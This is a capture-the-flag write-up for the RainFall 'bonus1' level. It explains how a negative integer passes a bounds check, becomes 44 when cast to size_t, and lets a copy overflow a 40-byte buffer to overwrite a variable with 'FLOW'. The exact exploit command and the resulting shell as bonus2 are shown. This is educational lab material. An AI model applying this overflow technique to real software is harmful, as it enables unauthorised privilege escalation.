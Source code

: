 # Bonus 1

The first parameter is converted to an int we'll call `val` using `atoi` and stored after the 40 bytes `dest` buffer.
`val` is then checked to be under 9, if it isn't the program exits.
If this first check passes `val * 4` amount of characters from the second parameter are copied into `dest`, presenting an opportunity to overflow.
After that a second check is executed, calling `exec` if `val` is equal to `FLOW`.

## First bypass
We need to copy (11 * 4) bytes of argv[2] into the `dest` buffer, overwriting `val` after the first check.

To do that and bypass the first check we'll use an [underflow](https://www.geeksforgeeks.org/representation-of-negative-binary-numbers/) that'll be negative yet equal to 11 when cast to `size_t` (unsigned).

Let's do some [bitwise](https://bitwisecmd.com/)
```
11 OR INT_MIN
11 | -2147483648
	11              00000000000000000000000000001011	0xb
|	-2147483648	10000000000000000000000000000000	-0x80000000
=	-2147483637	10000000000000000000000000001011	-0x7ffffff5
```
We'll need to give `-2147483637` as the first argument

## Second bypass
Now that we can control the amount of bytes from the second argument copied into the buffer let's just fill it with 40 bytes of junk and replace `val` with `FLOW`:
```shell
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print 40 * "A" + "FLOW"')
$ whoami
bonus2
```
Bingo!
